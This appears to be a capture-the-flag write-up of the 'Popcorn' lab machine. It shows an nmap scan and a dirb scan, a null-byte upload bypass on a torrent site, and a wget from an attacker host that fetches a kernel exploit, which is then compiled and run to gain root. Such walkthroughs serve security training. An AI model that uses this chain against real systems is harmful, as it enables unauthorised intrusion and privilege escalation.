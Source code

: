 ```bash
root@kali:~/Desktop# nmap 10.10.10.6 -A 

Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-20 00:55 BST 
Nmap scan report for 10.10.10.6 
Host is up (0.099s latency). 
Not shown: 998 closed ports 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA) 
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA) 
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu)) 
|_http-server-header: Apache/2.2.12 (Ubuntu) 
|_http-title: Site doesn't have a title (text/html). 
Device type: general purpose 
Running: Linux 2.6.X 
OS CPE: cpe:/o:linux:linux_kernel:2.6 
OS details: Linux 2.6.17 - 2.6.36 
Network Distance: 2 hops 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 

TRACEROUTE (using port 113/tcp) 
HOP RTT       ADDRESS 
1   126.56 ms 10.10.12.1 
2   47.39 ms  10.10.10.6 

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 14.96 seconds
```

```
root@kali:~# dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 


----------------- 
DIRB v2.22     
By The Dark Raver 
----------------- 


START_TIME: Tue Jun 27 13:17:07 2017 
URL_BASE: http://10.10.10.6/ 
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt 


----------------- 


GENERATED WORDS: 4612                                                           


---- Scanning URL: http://10.10.10.6/ ---- 
==> DIRECTORY: http://10.10.10.6/.ssh/                                          
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                   
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                              
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                           
+ http://10.10.10.6/test (CODE:200|SIZE:47332)                                  
==> DIRECTORY: http://10.10.10.6/torrent/
```

![](/assets/GetImage %2815%29.png)Upload a torrent and upload a screenshot injecting a null byte to get a succesful upload

    www-data@popcorn:/tmp$ wget 10.10.13.166:8000/15704.c 
    wget 10.10.13.166:8000/15704.c 
    --2017-05-23 21:05:40--  http://10.10.13.166:8000/15704.c 
    Connecting to 10.10.13.166:8000... connected. 
    HTTP request sent, awaiting response... 200 OK 
    Length: 9489 (9.3K) [text/plain] 
    Saving to: `15704.c' 

    100%[======================================>] 9,489       --.-K/s   in 0.1s     

    2017-05-23 21:05:40 (90.0 KB/s) - `15704.c' saved [9489/9489] 

    www-data@popcorn:/tmp$ ls 
    ls 
    15704.c  ckprm 
    www-data@popcorn:/tmp$ gcc 15704.c -o ex 
    gcc 15704.c -o ex 
    www-data@popcorn:/tmp$ ls 
    ls 
    15704.c  ckprm    ex 
    www-data@popcorn:/tmp$ ./ex 
    ./ex 
    [*] Resolving kernel addresses... 
     [+] Resolved econet_ioctl to 0xf846a280 
     [+] Resolved econet_ops to 0xf846a360 
     [+] Resolved commit_creds to 0xc01645d0 
     [+] Resolved prepare_kernel_cred to 0xc01647d0 
    [*] Calculating target... 
    [*] Triggering payload... 
    [*] Got root! 
    # ls 
    ls 
    15704.c  ckprm    ex 
    # id 
    id 
    uid=0(root) gid=0(root) 



